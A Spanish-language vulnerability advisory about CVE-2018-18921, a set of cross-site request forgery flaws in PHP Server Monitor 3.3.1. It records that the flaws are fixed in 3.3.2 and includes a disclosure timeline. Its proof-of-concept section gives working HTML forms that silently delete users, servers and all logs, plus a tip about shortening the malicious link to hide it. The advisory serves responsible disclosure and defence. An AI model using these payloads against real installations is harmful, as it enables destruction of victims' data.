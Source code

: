 +++
date = "2018-12-03"
title = "CVE-2018-18921 PHP Server Monitor 3.3.1 - Cross-Site Request Forgery"
author = "Javier Olmedo"
toc = false
+++

Las vulnerabilidades [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\)) encontradas en el software [PHP Server Monitor 3.3.1](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.1) han quedado solucionadas. Estas, **permitían a un usuario malintencionado borrar servidores, logs y usuarios de la aplicación** a través de este ataque. La vulnerabilidad, ha sido asociada al [CVE-2018-18921](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-18921).

## CVE-2018-18921

### PHP Server Monitor 3.3.1 - Cross-Site Request Forgery (CSRF)

[![/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_001.png](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_001.png)](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_001.png)

PHP Server Monitor es una **aplicación web orientada a monitorizar la disponibilidad de servidores PHP**, comprueba si están correctamente funcionando, monitoriza los servicios, genera gráficos e historial de actividad además de almacenar logs de errores y permitir notificaciones a través de email y Telegram, está desarrollada en PHP y MySQL.

- 📅 Vulnerabilidad descubierta por **[Javier Olmedo](https://twitter.com/JJavierOlmedo)** el **30/10/2018**
- 💣 Publicada el **23/11/2018**
- 🐛 [CVE-2018-18921](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18921)
- 🔗 Link del software [PHP Server Monitor 3.3.1](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.1)
- 🐞 Versión vulnerable = **3.3.1 y posiblemente anteriores**
- ✔️ Actualiza a la [versión 3.3.2](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.2) para parchear

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🔴 ALTA 🔴

A través de las vulnerabilidades [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\)), un atacante **podría aprovecharse de la confianza que tiene la aplicación sobre los usuarios legítimos** para crear un enlace o formulario malicioso que será ejecutado a través de estos.

## Parámetros / Recursos vulnerables

Durante la auditoria, se observó que el botón encargado de borrar los usuarios, servidores y logs, se realizaba por **petición GET y carecía de token anti-csrf.**

[![/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_002.png](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_002.png)](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_002.png)

Esto, permitiría a un atacante **crear un enlace malicioso** modificando los valores de los parámetros `mod`, `action` e `id` para realizar acciones de eliminación de objetos sobre la aplicación.

## Prueba de concepto (PoC)

En las siguientes pruebas de concepto, se ha dividido la pantalla en dos partes, en la parte izquierda se encontraría un usuario en el panel de administración mientras que en la parte derecha, un atacante genera un botón malicioso previamente configurado para realizar las acciones.

### NOTA

> Se han utilizado formularios para la explotación de la vulnerabilidad, pero en un escenario real, a un atacante le bastaría con generar el enlace y acortar la URL ([Google URL Shortener](https://goo.gl/)) para ofuscar la acción e intentar explotar la vulnerabilidad con éxito, ya que las peticiones se realizan por **GET.**

### Eliminación de usuarios

**URL:** `http://localhost/?&mod=user&action=delete&id=[ID]`

[![/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_003.gif](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_003.gif)](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_003.gif)

```html
<html>
 <body>
 <script>history.pushState('', '', '/')</script>
  <form action="http://localhost/">
   <input type="hidden" name="mod" value="user" />
   <input type="hidden" name="action" value="delete" />
   <input type="hidden" name="id" value="[ID]" />
   <input type="submit" value="Delete User" />
  </form>
 </body>
</html>
```

### Eliminación de servidores

**URL:** `http://localhost/?&mod=server&action=delete&id=[ID]`

[![/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_004.gif](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_004.gif)](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_004.gif)

```html
<html>
 <body>
 <script>history.pushState('', '', '/')</script>
  <form action="http://localhost/">
   <input type="hidden" name="mod" value="server" />
   <input type="hidden" name="action" value="delete" />
   <input type="hidden" name="id" value="[ID]" />
   <input type="submit" value="Delete Server" />
  </form>
 </body>
</html>
```

### Eliminación de todos los logs

**URL:** `http://localhost/?&mod=&action=delete`

[![/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_005.gif](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_005.gif)](/images/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery_005.gif)

```html
<html>
 <body>
 <script>history.pushState('', '', '/')</script>
  <form action="http://localhost/">
   <input type="hidden" name="mod" value="server&#95;log" />
   <input type="hidden" name="action" value="delete" />
   <input type="submit" value="Delete All Logs" />
  </form>
 </body>
</html>
```

## Timeline

- **30/10/2018** Descubrimiento de la vulnerabilidad
- **30/10/2018** Creo issue en GitHub
- **30/10/2018** El desarrollador marca la vulnerabiliad como pendiente de parcheo
- **01/11/2018** Solicito CVE
- **03/11/2018** Asignación de CVE-2018-18921 por MITRE
- **22/11/2018** Vulnerabilidad parcheada
- **28/11/2018** Publicación de la vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18921](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18921)
- SIDERTIA - [https://www.sidertia.com/Home/Community/Blog/2018/11/28/Corregidas-las-vulnerabilidades-CSRF-descubiertas-en-PHP-Server-Monitor](https://www.sidertia.com/Home/Community/Blog/2018/11/28/Corregidas-las-vulnerabilidades-CSRF-descubiertas-en-PHP-Server-Monitor)
- EXPLOIT-DB - [https://www.exploit-db.com/exploits/45932](https://www.exploit-db.com/exploits/45932)

Un saludo a todos!! 👋
